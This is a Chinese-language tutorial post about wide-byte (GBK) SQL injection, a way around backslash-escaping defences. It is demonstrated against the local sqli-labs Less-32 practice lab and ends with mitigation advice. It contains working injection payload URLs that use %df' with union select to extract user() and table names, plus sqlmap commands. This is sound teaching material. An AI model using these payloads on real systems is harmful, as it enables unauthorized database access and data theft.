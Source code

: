 ```yaml
---
layout: post
title: 1.4.1-SQL注入防御绕过-宽字节注入
category: 
  - web安全
tags: 
  - web安全
  - sql注入
abbrlink: 2024290485
date: 2018-06-30 00:00:00
description: more
---
```


## 01 宽字节注入原理

> 什么是宽字节
> GB2312、GBK、GB8030、BIG5、Shift_JIS等这些都是常说的宽字节，实际为两字节。

站点可能为了防止SQL注入，会加\转义'，最后变成\'  

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/01.jpeg)

MySQL在使用GBK编码的时候，会认为两个字符为一个汉字。
使用%df'进行编码，两个字符组合，认为是一个汉字。  
注：前一个Ascii码大于128才能到汉字的范围

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/02.jpeg)

## 02 宽字节注入方法

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select user()),3--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/03.jpeg)

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 0,1),3--+ // 查表

	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-32/?id=1" // 判断id不是注入点 因为被转义

	sqlmap -u "http://127.0.0.1/Less-32/?id=1%df" // 通过宽字节注入

--- 

> 宽字节注入应对策略：
+ 使用utf-8,避免宽字节注入；
ps：不仅在gbk，韩文、日文等等都是宽字节，都有可能存在宽字节注入漏洞。

+ mysql_real_escape_string,mysql_set_charset('gbk',$conn) // 替换 和 编码 两个函数一起使用

+ 可以设置参数，charcater_set_client=binary // 设置mysql的连接参数，使用二进制模式

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/09/04.png)


































